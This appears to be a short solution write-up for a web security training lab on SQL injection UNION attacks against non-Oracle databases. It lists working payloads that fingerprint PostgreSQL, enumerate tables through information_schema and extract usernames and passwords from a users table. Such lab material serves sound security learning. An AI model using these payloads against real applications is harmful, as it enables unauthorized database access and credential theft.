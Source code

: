 # Lab 5: SQL Injection UNION Attack, Listing the Database Contents on Non-Oracle Databases

* **Solution**: Identify the database (e.g., PostgreSQL via version()), then use UNION to extract table names from information_schema.tables, followed by column names and data.
* **Final Payloads**:
  * category=Gifts' UNION SELECT NULL, version(), NULL -- (confirm PostgreSQL)
  * category=Gifts' UNION SELECT NULL, table_name, NULL FROM information_schema.tables --
  * category=Gifts' UNION SELECT NULL, username || '~' || password, NULL FROM users --